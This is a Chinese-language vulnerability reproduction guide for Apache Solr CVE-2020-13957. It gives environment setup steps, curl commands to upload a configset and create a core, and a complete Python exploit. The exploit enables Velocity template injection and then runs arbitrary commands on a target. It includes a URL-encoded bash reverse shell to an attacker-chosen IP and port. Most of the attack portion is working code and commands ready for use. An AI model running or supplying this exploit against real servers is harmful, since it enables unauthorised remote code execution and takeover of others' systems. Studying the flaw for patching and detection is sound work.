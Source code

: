 # Apache Solr RCE 未授权上传漏洞 CVE-2020-13957

## 漏洞描述

在特定的Solr版本中ConfigSet API存在未授权上传漏洞，攻击者利用漏洞可实现远程代码执行。

## 影响版本

> [!NOTE]
>
> Apache Solr 6.6.0 -6.6.5
>
> Apache Solr 7.0.0 -7.7.3
>
> Apache Solr 8.0.0 -8.6.2

## 环境搭建

选择一个存在漏洞的版本

[下载各版本Solr地址](http://archive.apache.org/dist/lucene/solr/)

这里复现使用的是 Apache Solr 7.7.0 进行复现

下载后执行以下命令进行环境部署

```
cd solr-7.7.0
./bin/solr start -e cloud -force
```

然后一路回车，直至出现

```
Created collection 'gettingstarted' with 2 shard(s), 2 replica(s) with config-set 'gettingstarted'

Enabling auto soft-commits with maxTime 3 secs using the Config API

POSTing request to Config API: http://localhost:8983/solr/gettingstarted/config
{"set-property":{"updateHandler.autoSoftCommit.maxTime":"3000"}}
Successfully set-property updateHandler.autoSoftCommit.maxTime to 3000


SolrCloud example running, please visit: http://localhost:8983/solr 
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现

在攻击机上下载目标版本的Solr,执行下列命令打包压缩文件

```
solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf
zip -r - * > vuln.zip
```

![](http://wikioss.peiqi.tech/vuln/solr-22.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

将 vuln.zip 进行上传

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @vuln.zip "http://xxx.xxx.xxx.xxx:8983/solr/admin/configs?action=UPLOAD&name=vuln"
```

> [!NOTE]
>
> name参数为压缩包的文件名

利用漏洞创建一个 core 

```shell
curl "http://xxx.xxx.xxx.xxx:8983/solr/admin/collections?action=CREATE&name=peiqi&numShards=1&replicationFactor=1&wt=xml&collection.configName=vuln"
```

> [!NOTE]
>
> name参数为创建的core核心名
>
> collection.configName参数为上传的文件名

![](http://wikioss.peiqi.tech/vuln/solr-23.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

查看core列表，发现已经成功创建

![](http://wikioss.peiqi.tech/vuln/solr-24.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

再使用 Apache Solr Velocity模板远程执行 CVE-2019-17558 即可执行任意命令

> POC使用详情参考另一篇复现文章

![](http://wikioss.peiqi.tech/vuln/solr-25.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

> [!NOTE]
>
> 使用前按复现步骤上传对应版本的zip文件，例如我这里上传的文件为 qwert.zip,其他使用方法与 Apache Solr Velocity模板远程执行 CVE-2019-17558 的POC使用方法类似

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import re
import sys
import os
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr 6.6.0 -6.6.5        \033[0m')
    print('+  \033[34m         Apache Solr 7.0.0 -7.7.3        \033[0m')
    print('+  \033[34m         Apache Solr 8.0.0 -8.6.2        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2020-13957.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983   \033[0m')
    print('+  \033[36mZip    >>> vuln.zip(Zip文件名)            \033[0m')
    print('+------------------------------------------')


def POC_1(target_url, file_name):
    core_name = str(input("\033[35mPlease input Create Core Name\nCore >>> \033[0m"))
    core_update = """%s/solr/admin/collections?action=CREATE&name=%s&numShards=1&replicationFactor=1&wt=xml&collection.configName=%s""" % (target_url, core_name, file_name.replace(".zip",""))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    response = requests.get(url=core_update, headers=headers, timeout=30)
    if response.status_code != 200:
        print("\033[31m[x] 创建Core失败 \033[0m")
        sys.exit(0)
    else:
        core = re.findall(r'<str name="core">(.*?)</str>',response.text)[0]
        vuln_url = target_url + "/solr/" + core + "/config"
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core + "/config\033[0m")
        return vuln_url,core

def POC_2(target_url, core):
    open_params = target_url + "/solr/" + core + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    set_api_data = """
    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
    }
    """
    response = requests.request("POST", url=open_params, data=set_api_data, headers=headers, timeout=10)
    if response.status_code == 200:
        print("\033[32m[o] POST请求成功将params.resource.loader.enabled设置为True \033[0m")
    else:
        print("\033[31m[x] POST请求params.resource.loader.enabled设置为True失败 \033[0m")
        sys.exit(0)


def POC_3(target_url, core, cmd):
    vuln_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vuln_url, headers=headers, timeout=10)
    if "Error 500" in response.text:
        print("\033[31m[x] 代码执行失败，响应为 Error 500 \033[0m")
    else:
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m",response.text)

def POC_4(target_url, core, IP, PORT):
    # POC : /bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
    cmd = "%2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261".format(IP, PORT)
    vnul_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vnul_url, headers=headers)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_name = str(input("\033[35mPlease input File Name\nZip >>> \033[0m"))
    vuln_url,core = POC_1(target_url, file_name)
    POC_2(target_url, core)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        elif cmd == "shell":
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_4(target_url, core, IP, PORT)
        else:
            POC_3(target_url, core, cmd)
```

![](http://wikioss.peiqi.tech/vuln/solr-26.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)